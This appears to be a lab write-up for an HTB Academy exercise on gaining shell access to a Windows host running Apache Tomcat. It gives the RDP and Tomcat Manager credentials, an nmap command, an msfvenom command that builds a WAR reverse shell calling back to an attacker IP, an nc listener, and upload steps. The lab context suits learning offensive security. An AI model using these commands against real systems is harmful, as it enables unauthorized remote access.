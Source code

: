 # Shell-Payload

Host 1: 

## Host Information and Enumeration

### Connecting via RDP
To access Host-01, we can use the xfreerdp tool:
```bash
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.34.161
```

### Enumerating Host-01 with Nmap
Initiate an Nmap scan to gather information about the target:
```bash
sudo nmap -sCV 172.16.1.11 -oA nmapH1
```
The Nmap scan reveals various open ports and services on the host.

## Identifying the Hostname

The hostname of Host-01 is identified as 'shells-winsvr' from the Nmap scan results.

## Exploiting the Target and Gaining Shell Access

### Exploitation Approach
The target is running an Apache Tomcat server. We plan to exploit a vulnerability related to Tomcat using the following scenarios:
- Tomcat Manager Authenticated Upload Code Execution
- Generating a .war Format Backdoor
- Using the Tomcat War Deployer Script
- Generating a JSP Webshell

### Metasploit Exploits
We use Metasploit to search for relevant exploits related to Apache Tomcat:
```bash
msfconsole
search tomcat
```
Among the available exploits, we are interested in 'exploit/multi/http/tomcat_mgr_upload'.

### Manual Exploitation: Generating a .war Backdoor
We use msfvenom to generate a Java JSP shell payload:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.108 LPORT=1234 -f war > shell.war
```
Then, we create a listener to receive the shell connection:
```bash
nc -lvp 1234
```
We can  set up the handler and payload to receive the connection In Metasploit.

### Uploading and Executing the Shell
Using the credentials 'tomcat' and 'Tomcatadm', we log in to the Tomcat Manager.
Upload the generated shell ('shell.war') through the Manager interface.
Execute the uploaded shell and wait for the connection.
Once a connection is established, navigate to C:\Shares\ to access the desired folder.

